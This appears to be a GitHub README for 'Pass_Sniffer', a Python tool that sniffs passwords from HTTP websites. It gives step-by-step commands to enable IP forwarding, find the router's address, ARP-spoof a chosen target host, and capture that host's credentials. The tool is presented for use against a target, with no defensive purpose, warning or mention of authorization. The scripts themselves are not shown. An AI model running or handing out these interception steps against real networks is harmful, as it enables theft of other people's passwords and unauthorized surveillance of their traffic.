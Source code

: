 # Pass_Sniffer
password sniffer developed in python. (only for HTTP websites)

## Prerequisites
~ You need to have python installed inside your machine in order to run this scanner.

## How To Use
~ Fire up your terminal and type the following command.
```
git clone https://github.com/jeet-patel313/Pass_Sniffer.git
```
```
cd Pass_Sniffer
```
```
echo 1 >> /proc/sys/net/ipv4/ip_forward 
```
enter the following command to check your router's ip address:
```
netstat -nr
```
now find the ip address of your target host machine and run the arp_spoofer.py first
```
python3 arp_spoofer.py <router_ip> <target_ip>
```
now run the pass_sniffer.py in order to sniff the target host for possible credentials
```
python3 pass_sniffer.py
```
